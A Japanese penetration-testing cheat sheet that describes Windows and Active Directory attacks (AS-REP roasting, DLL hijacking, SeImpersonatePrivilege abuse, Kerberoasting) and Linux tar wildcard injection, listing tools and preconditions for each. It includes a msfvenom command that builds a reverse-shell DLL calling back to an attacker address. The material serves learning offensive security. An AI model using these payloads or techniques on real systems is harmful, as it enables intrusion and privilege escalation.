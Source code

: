# Windows

## AS-REP Roasting
**AS-REP roastingは、Kerberos pre authenticationなしでユーザからパスワードハッシュを取得できる攻撃**のことを指す。
Kerberosへの認証において、まずはAS-REQを送信するというステップがある。この要求に基づいてDCは認証成功を判断する。  
**認証に成功すると、DCはセッションキーとTGTを含むAS-REPを返す。**  
ユーザ名のパスワードとハッシュから生成したハッシュを使って暗号化されたタイムスタンプをAS-REQにのせてユーザの認証をDCに頼むという流れを、**Kerberos Pre Authentication**と呼ぶ。この機能が有効だとAS-REP roastingはできない。  
このKerberos pre authenticationがDC側で有効になっていない場合、攻撃者は任意のADユーザに代わってDCにAS-REQを返すよう要求ができる。

### 攻撃で使用できるツール
- Rubeus
- impacket-GetNPUsers
### 攻撃の条件
- DCのIPアドレスが分かっている
- AS-REQを送る際になりすますユーザの属するドメイン名が分かっている
- AS-REQを送る際になりすますドメインの、有効なユーザ名が分かっている
- Kerberosのポート(88番)と通信できる
- DC側の設定で、ターゲットユーザアカウントのKerberos pre authenticationが有効になっていない


## DLL Hijacking
.exeバイナリやそのバイナリに紐づいたサービスは、起動時にDLLを探す。  
**これらのDLLが存在しないかDLLが絶対パスを使わずに呼び出されるといったケースで、バイナリやサービスに悪意のあるDLLファイルを強制的にロード&実行させて権限昇格することができる。**  
  
msfvenom等でバイナリを生成し、DLLやバイナリを生成してリバースシェルを実行すると権限昇格に成功するなどできる。  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.293.22 LPORT=4444 -f dll -o hoge.dll
```

## Abuse Windows SeImpersonatePrivilege
### With RogueWinRM
Windows 10 1809以降に存在する脆弱性を突いた、権限昇格の脆弱性を狙った攻撃。  
Windows Server 2019, 2016でも動くが、5985ポートをリッスンポートに使うのでWinRMがWindows端末上で動いていると機能しない。
[脆弱性みっけた人の良記事](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)  
  
ただしRogueWinRMは、ターゲット上でWinRMが動いているかいないかによて攻撃の成否が決まってしまう。  
なのでそのような場合はprintspoofer.exeで代替できることがある。

### 攻撃で使用できるツール
- RogueWinRM
- PrintSpoofer

### 攻撃の条件
- 端末のバージョンがWindows 10 1809以降、もしくはWindows Server 2019, 2016であること
- 端末上で5985ポートを使用していないこと
- BITSがWindows上で起動していないこと(バックグラウンドでWindows Updateが走ってるときとかはBITSがうごく)
- 実行ユーザがSeImpersonatePrivilege権限を持っていること

## Kerberoasting
Kerberoastingは、**SPNがコンピュータアカウントではなくユーザアカウントに紐づけられているサービスのサービスチケットを要求する攻撃。** 

### 攻撃で使用できるツール
- impacket-GetUserSPNs
- Rubeus

### 攻撃の条件
- ドメイン内で有効なユーザ名とパスワードの資格情報を1つ以上持っていること。
- DCと通信ができること。
- ターゲットサービスアカウント所属するドメイン名が分かっていること。

============-
# Linux

## ワイルドカードインジェクション  
### 概要
tarコマンドの第三引数に*が指定されている場合、そこに--checkpointを入れて任意のコマンド実行ができる。  
tarがバックアップ用のスケジュールタスクだったり、root権限で実行されるようなタスクであった場合、root権限で実行して権限昇格できたりする。  
tarが圧縮するファイルのフォルダのとこに書き込み権限が無いといけない。
### 参考情報
[ワイルドカードインジェクション1](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)  
[ワイルドカードワイルインジェクション2](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)  

### 攻撃の条件
- tarの引数に*が末尾に指定されている。
- root権限(スケジュールタスクでもいい)でtarが実行できる。
- tarが*で圧縮ファイル群を指定する時、この圧縮ファイルたちのフォルダにファイルを作れる必要がある。